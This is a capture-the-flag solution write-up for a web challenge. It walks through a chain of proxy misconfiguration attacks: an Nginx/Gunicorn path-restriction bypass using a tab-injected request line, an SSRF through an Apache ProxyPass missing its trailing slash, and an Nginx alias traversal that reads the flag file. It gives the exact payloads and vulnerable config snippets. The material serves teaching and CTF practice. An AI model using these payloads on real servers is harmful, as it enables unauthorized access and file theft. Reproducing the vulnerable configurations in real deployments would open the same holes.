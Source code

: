 ## Solving steps
1. Gunicorn + Nginx 403 `/admin` path restriction bypass via [technique](https://speakerdeck.com/greendog/2-and-a-bit-of-magic?slide=14): `GET /admin<TAB>HTTP/1.1/../../ HTTP/1.1`
2. Find path as random UUID from the response: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/`
3. Find `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` path with other backend
4. Exploit SSRF via misconfigured Apache ProxyPass: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx`
5. Exploit Nginx alias traversal for limited file reading: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx/imgs../flag`

![Schema](docs/dfd.png)

## Step #1

Hint is on main page:

```
Hello? My name is gunicorn and I have a friend called Nginx. We are really weird couple: proxy and backend :)</div><div>Can you find something behind /admin?
```

Keywords: weird, proxy, nginx, gunicorn

Player should find a way to bypass nginx path protection for reading /admin path.

Protection implemented at file: `reverse_nginx/nginx.conf`:

```
    location /admin {
        deny all;
    }
```

The key is finding repo [weird_proxies](https://github.com/GrrrDog/weird_proxies/) and one of the last presentation by the author [Weird proxies/2 and a bit of magic
](https://speakerdeck.com/greendog/2-and-a-bit-of-magic). On slide #14 we can find reverse proxy inconsistence example for Nginx + Gunicorn: [Slide #14](https://speakerdeck.com/greendog/2-and-a-bit-of-magic?slide=14)

Finally, payload is:
`GET /admin<TAB>HTTP/1.1/../../ HTTP/1.1`

Why it works:
- Nginx after path normalization: `/` - is not /admin so there is no restriction to access
- Forward: `/admin<TAB>HTTP/1.1/../../`
- Gunicorn after path parsing: `/admin`


## Step #2

From the previous step we have "secret" path: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/`

Here we found message:

```
    <h2>Search something?</h2>
    The application consists of several hosts:
    <ul>
        <li>default_backend_apache - accessible via /wiki/</li>
        <li>backend_nginx - internal network only</li>
    </ul>
```
Go to path `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` for accessing default_backend_apache.

Second bulnerability in reverse_apache misconfiguration in file `reverse_apache/my-httpd.conf`:

```
<VirtualHost *:80>
    DocumentRoot "/usr/local/apache2/htdocs/"
    ProxyPass    "/wiki/"  "http://default_backend_apache"
    ProxyPassReverse "/wiki/" "http://default_backend_apache/"
</VirtualHost>
```

`ProxyPass    "/wiki/"  "http://default_backend_apache"` is configured incorrectly (without trailing slash). So any character after `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` will be added to hostname `default_backend_apache`. It means it can be exploited for SSRF.
More info about misconfiguration [here](https://github.com/GrrrDog/weird_proxies/blob/master/Apache.md#vulnerable-configs)

For going to the next step: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91//wiki/@backend_nginx`

## Step #3

Pretty known Nginx alias traversal bug. More info about misconfiguration [here](https://github.com/yandex/gixy/blob/master/docs/en/plugins/aliastraversal.md)

Misconfigured code in file `backend_nginx/nginx.conf`:

```
    # Alias traversal
    location /imgs {
        autoindex on;
        alias /usr/share/nginx/imgs/;
    }
```

Exploit for reading file: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx/imgs../flag`

Btw, nginx shows files in directory with configuration: `autoindex on;`. So it's easy to identify flag location after getting alias traversal.